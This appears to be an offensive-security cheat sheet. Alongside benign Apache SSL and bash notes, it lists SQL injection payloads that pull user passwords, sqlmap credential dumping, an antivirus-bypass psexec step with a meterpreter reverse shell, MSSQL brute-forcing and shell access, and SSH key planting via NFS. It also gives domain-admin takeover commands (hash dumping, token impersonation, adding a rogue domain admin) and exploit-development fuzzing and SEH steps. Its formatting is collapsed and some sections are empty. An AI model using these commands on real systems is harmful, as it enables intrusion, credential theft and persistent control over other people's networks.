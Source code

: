 # **CheatSheet (Short)** #

### **SCP** ###

```
[+] Secure Copy (scp) Cheatsheet--------------------------------​[>] Copy remote file to local host:​​[>] Copy local file to remote host:​​[>] Copy local directory to remote directory:​​[>] Copy a file from one remote host to another:​​[>] Improve scp performance (use blowfish):​
```

### **SQL Injection** ###

```
[+] Union Based SQL Injection​' or 1=1#​1' ORDER BY 10#​1' UNION SELECT version(),2#​1' UNION SELECT version(),database()#​1' UNION SELECT version(),user()#​1' UNION ALL SELECT table_name,2 from information_schema.tables#​1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#​1' UNION ALL SELECT concat(user,char(58),password),2 from users#​​sqlmap --url="" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### **AV bypass** ###

**1.** Generate executable using Veil.  
**2.** In msfconsole setup psexec with relevant payload
```
(windows/meterpreter/reverse_tcp)​msf > use exploit/windows/smb/psexecmsf exploit(psexec) > set RHOST ipRHOST => ipmsf exploit(psexec) > set SMBUser userSMBUser => usermsf exploit(psexec) > set SMBPass passSMBPass => passmsf exploit(psexec) > set EXE::Custom /root/Desktop/Misc/Veil-master/payload.exeEXE::Custom => /root/Desktop/Misc/Veil-master/payload.exemsf exploit(psexec) > exploit
```

### **Apache SSL** ###

- Enabling Self signed certificates on local website1. 
- Install OpenSSL​sudo apt-get install openssl​2. 
- Run the following command to generate the self signed SSL certificates:
```
​sudo openssl req -x509 -nodes -days 1095 -newkey rsa:2048 -out /etc/ssl/certs/server.crt -keyout /etc/ssl/private/server.key​3. 
```
- Enable SSL for Apache​sudo a2enmod ssl​4. 
- Put the default-ssl site available creating a symbolic link:
```
​sudo ln -s /etc/apache2/sites-available/default-ssl.conf /etc/apache2/sites-enabled/000-default-ssl.conf​5
```
- Edit the file default-ssl.conf
```
​sudo nano /etc/apache2/sites-enabled/000-default-ssl.conf​Change
``` 
the following lines to point to the `certs:​SSLCertificateFile    /etc/ssl/certs/server.crtSSLCertificateKeyFile /etc/ssl/private/server.key​6`. 
- Restart Apache
```
​sudo /etc/init.d/apache2 restart
```
#### **More Information**  ####

- [https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/](https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/)
- [https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html](https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html)
- [http://www.akadia.com/services/ssh_test_certificate.html](http://www.akadia.com/services/ssh_test_certificate.html)
- [https://www.sslshopper.com/apache-server-ssl-installation-instructions.html](https://www.sslshopper.com/apache-server-ssl-installation-instructions.html)

### **Attacking MS-SQL** ###

```
[+] Attacking MSSQL with Metasploit​[>] Enumerate MSSQL Servers on the network:​msf > use auxiliary/scanner/mssql/mssql_pingnmap -sU --script=ms-sql-info ip ipDiscover more servers using "Browse for More" via Microsoft SQL Server Management Studio.​[>] Bruteforce MSSQL Database:​msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login​[>] Enumerate MSSQL Database:​msf > use auxiliary/admin/mssql/mssql_enum​[>] Gain shell using gathered credentials​msf > use exploit/windows/mssql/mssql_payloadmsf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp​
```

Bash Scripting

```
Simple Bash Scripting Cheatsheet--------------------------------​[+] nano Shortcutsctrl v			Next page.ctrl y			Previous page.ctrl w			Where is (find).ctrl k			Cut that line of test.ctrl x     		Exit editor.​[+] Create a text file:touch file		Creates an empty file.ifconfig > tmp	pipe the output of a commandnano file​[+] Create a file and append text to it:ifconfig > tmp     echo >> tmpping google.com -c3 >> tmp​[+] How to view a file:cat file		Show entire contents of file.more file		Show one page at a time.  Space bar for next page and (q) to exit.head file		Show the first 10 lines.head -15 file	Show the first 15 lines.tail file		Show the last 10 lines.tail -15 file	Show the last 15 lines.tail -f file	Useful when viewing the output of a log file.​[+] pipecat tmp | grep Bcast	Feeds the output of one process to the input of another process.​[+] Processesps aux			Show all running process for all users.kill -9 PID		Nicely kill a PID.​[+] Word Countwc -l tmp2		Count the number of lines in a file​[+] cut-d  delimiter-f  fields​[+] sortSort by unique		sort -u filesort IP addresses correct		sort -t . -k 1,1n -k 2,2n -k 3,3n -k 4,4ncat tmp2 | cut -d '(' -f2 | cut -d ')' -f1 | sort -u		Isolate the IP address​[+] awkawk '{print $1}' file 		Show the 1st column.awk '{print $1,$5}' file 	Show the 1st and 5th columns.​[+] grepgrep -v		Remove a single string.grep -v 'red' file​[+] egrep -vRemove multiple strings	egrep -v '(red|white|blue)' file​[+] sedsed 's/FOO/BAR/g' file 		Replace FOO with BAR.sed 's/FOO//g' file 		Replace FOO with nothing.sed '/^FOO/d' file 			Remove lines that start with FOO.​[+] colour31=red 32=green 33=yellow 34=blue 35=magenta 36=cyan echo -e "\e[1;34mThis is a blue text.\e[0m"​​​​Bash Scripts------------​[+] Simple bash script:#!/bin/bashclearechoechoprint "Hello world."​[+] Make a file executable.chmod +x filechmod 755 file​[+] Variablesname=Bobecho $nameuser=$(whoami)echo $userecho 'Hello' $name. 'You are running as' $user.​#!/bin/bashclearecho "Hello World"name=Bobip=`ifconfig | grep "Bcast:" | cut -d":" -f2 | cut -d" " -f1`echo "Hello" $name "Your IP address is:" $ip​[+] User Inputread -p "Domain: " domain​#!/bin/bashecho "Please input your domain:"read -p "Domain:" domainping -c 5 $domain​[+] Check For No User Inputif [ -z $domain ]; then	echo	echo "#########################"	echo	echo "Invalid choice."	echo	exitfi​[+] For loops#!/bin/bash​for host in $(cat hosts.txt)do	command $hostdone​[+] One Liners​Port Scan:for port in $(cat Ports.txt); do nc -nzv ip $port & sleep 0.5; done
```

CTF CS

```
CTF Notes---------​# Enumerate Users via Finger​# Show nfs shares availableshowmount -e ip​# User nfspysh to mount share and create .ssh directorynfspysh -o server=ip:/home/usermkdir .sshcd .ssh​# Generate ssh key pairssh-keygencp id_rsa.pub /tmp/authorized_keys​# Transfer attacker public key to hostput /tmp/authorized_keysexit​# Login to SSH server with no password​​
```

Cookie Stealing

```
[+] Cookie Stealing:​[-] Start Web Service​python -m SimpleHTTPServer 80​[-] Use one of the following XSS payloads:​
```

Domain Admin Exploitation

```
[+] After compromising a Windows machine:​[>] List the domain administrators:From Shell - net group "Domain Admins" /domain​[>] Dump the hashes (Metasploit)msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE​[>] Find the admins (Metasploit)spool /tmp/enumdomainusers.txtmsf > use auxiliary/scanner/smb/smb_enumusers_domainmsf > set smbuser Administratormsf > set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0msf > set rhosts ip/24msf > set threads 8msf > run​msf> spool off​[>] Compromise Admin's boxmeterpreter > load incognitometerpreter > list_tokens -umeterpreter > impersonate_token MYDOM\\adaministratormeterpreter > getuidmeterpreter > shell​C:\> whoamimydom\adaministratorC:\> net user hacker /add /domainC:\> net group "Domain Admins" hacker /add /domain
```

Exploit-Dev

```
Exploit Development Cheatsheet------------------------------​[+] Fuzzing:​import socket​buffer = ["A"]counter = 50​while len(buffer) <= 1000:    buffer.append("A" * counter)    counter = counter + 50​for buffstring in buffer:    print "Fuzzing:" + str(len(buffstring))    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    sock.connect( ("192.168.0.20", 5555) )    sock.send(buffstring)    sock.close()​[+] Bad Character Testing:​"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e""\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d""\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c""\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b""\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a""\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59""\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68""\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77""\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86""\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95""\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4""\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3""\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2""\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1""\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef""\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe""\xff"​​[+] Structured Exception Handler (SEH) Exploitation notes​- Crash the application- Check SEH overwirte (view-seh chain)- Find offset (!mona pattern_create )- Find certain SEH references to the cyclic pattern (!mona findmsp)- Verify offset to NSEH (Next Exception)- Find POP/POP/RET address with mona (!mona seh -cpb )- Add short jump into payload to jump ofver SEH ("\xeb\x06" + 2 bytes of padding)- Add shellcode to the payload- Ensure existing padding to make sure the crash still happens.
```

​
